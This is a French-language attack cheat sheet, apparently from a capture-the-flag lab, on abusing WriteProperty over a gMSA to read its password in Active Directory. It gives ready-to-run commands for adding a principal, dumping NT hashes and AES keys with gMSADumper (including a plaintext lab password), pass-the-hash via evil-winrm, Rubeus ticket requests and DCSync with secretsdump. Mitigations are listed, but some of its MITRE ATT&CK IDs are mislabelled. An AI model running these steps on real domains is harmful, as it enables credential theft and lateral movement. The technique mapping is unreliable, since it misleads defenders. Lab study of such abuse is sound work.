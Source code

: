 # Abus des gMSA via msDS-GroupMSAMembership

***

### <mark style="color:blue;">📂</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Définition :**</mark>

Un **gMSA (Group Managed Service Account)** est un compte AD spécial, utilisé pour exécuter des services avec des mots de passe gérés automatiquement par les DC.\
Leur mot de passe peut être **lu uniquement par des principaux autorisés** via l’attribut :

```
msDS-GroupMSAMembership
```

***

### <mark style="color:blue;">⚠️</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Problème :**</mark>

Si un utilisateur possède le droit `WriteProperty` sur cet attribut, **il peut s’ajouter lui-même** à la liste des comptes autorisés à récupérer le mot de passe du gMSA.\
💥 Cela permet ensuite d’**extraire les credentials Kerberos (NT hash, AES keys)** et d’**utiliser le compte comme pivot**.

***

### <mark style="color:blue;">🧪</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Conditions requises :**</mark>

| Condition                                    | Présent                            |
| -------------------------------------------- | ---------------------------------- |
| Un gMSA existant dans AD                     | ✅ `Haze-IT-Backup$`                |
| Un utilisateur avec `WriteProperty` sur gMSA | ✅ `mark.adams` via `gMSA_Managers` |
| Accès WinRM ou shell PowerShell              | ✅ Evil-WinRM actif                 |
| BloodHound pour valider les ACLs             | ✅ Utilisé avec `bloodhound-python` |

***

### <mark style="color:blue;">🔁</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Étapes d’exploitation réelles :**</mark>

<mark style="color:green;">**1. 🎯 Enumération du droit**</mark>

```powershell
Get-DomainObjectACL -ResolveGUIDs -Identity "Haze-IT-Backup"
```

<mark style="color:green;">**2. ✍️ Ajout du compte dans les retrieveurs**</mark>

```powershell
$gMSA = "Haze-IT-Backup"
$PrincipalToAdd = "mark.adams"
$original = Get-ADServiceAccount -Properties PrincipalsAllowedToRetrieveManagedPassword $gMSA |
            Select-Object -ExpandProperty PrincipalsAllowedToRetrieveManagedPassword
$new = $original + $PrincipalToAdd
Set-ADServiceAccount -PrincipalsAllowedToRetrieveManagedPassword $new $gMSA
```

<mark style="color:green;">**3. 🔓 Extraction des secrets du gMSA**</mark>

```bash
python3 gMSADumper.py -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' -d haze.htb
```

➡️ Tu récupères :

```
Haze-IT-Backup$:::<NT hash>
aes256: <AES256 key>
aes128: <AES128 key>
```

***

### <mark style="color:blue;">🧠</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**Utilisation du compte gMSA :**</mark>

<mark style="color:green;">**🔥 Pass-the-Hash**</mark>

```bash
evil-winrm -u Haze-IT-Backup$ -H <nt hash> -i <victim-ip>
```

<mark style="color:green;">**🧪 Pass-the-Ticket (Rubeus)**</mark>

```powershell
Rubeus.exe asktgt /user:Haze-IT-Backup$ /rc4:<nt hash> /domain:haze.htb
```

<mark style="color:green;">**🔓 DCSync (si droits élevés)**</mark>

```bash
secretsdump.py haze.htb/Haze-IT-Backup$@DC01.haze.htb -hashes :<nt hash>
```

***

#### <mark style="color:green;">🖼️</mark> <mark style="color:green;"></mark><mark style="color:green;">**Diagramme ASCII**</mark>

```
[ mark.adams ]
     |
     | Member of
     v
[ gMSA_Managers ]
     |
     | WriteProperty on
     v
[ Haze-IT-Backup$ (gMSA) ]
     |
     | + Add to PrincipalsAllowedToRetrieveManagedPassword
     v
[ gMSADumper → NT hash, AES keys ]
     |
     v
[ Auth / pivot / lateral movement ]
```

***

#### <mark style="color:green;">💥</mark> <mark style="color:green;"></mark><mark style="color:green;">**Impact**</mark>

| Impact potentiel                                                    | Description                       |
| ------------------------------------------------------------------- | --------------------------------- |
| 🎯 Récupération d’un compte service                                 | Accès au NT hash + clefs Kerberos |
| 🧬 Utilisable pour pass-the-hash/ticket                             | Auth via Haze-IT-Backup$          |
| 🛠️ Possible élévation jusqu’à DA (si le gMSA a des droits étendus) |                                   |

***

#### <mark style="color:green;">🔒</mark> <mark style="color:green;"></mark><mark style="color:green;">**Mitigation**</mark>

| Contre-mesure                                    | Explication                                    |
| ------------------------------------------------ | ---------------------------------------------- |
| 🔐 Restreindre les ACLs sur les objets gMSA      | Aucun WriteProperty pour users non privilégiés |
| 👀 Monitorer l’usage de `Set-ADServiceAccount`   | Activité anormale = alerte                     |
| 📜 Journaliser les lectures de mot de passe gMSA | Pour traçabilité SIEM                          |
| 🧼 Révoquer les retrieveurs inutiles             | Minimise la surface d’attaque                  |

***

#### <mark style="color:green;">📌</mark> <mark style="color:green;"></mark><mark style="color:green;">**MITRE ATT\&CK Mapping**</mark>

| ID            | Nom                              |
| ------------- | -------------------------------- |
| **T1098.004** | Account Manipulation: gMSA Abuse |
| **T1550.002** | Use of Pass-the-Hash             |
| **T1558.003** | Steal or Forge Kerberos Tickets  |

***

### <mark style="color:blue;">✅ Résumé final</mark>

| Élément               | Valeur                                        |
| --------------------- | --------------------------------------------- |
| Compte abusé          | `Haze-IT-Backup$` (gMSA)                      |
| Compte attaquant      | `mark.adams`                                  |
| Droit exploité        | `WriteProperty` sur `msDS-GroupMSAMembership` |
| Outil final           | `gMSADumper.py`                               |
| Credentials récupérés | NT hash, AES128/256                           |
| Exploitation possible | WinRM, Kerberos, Pivot                        |

***
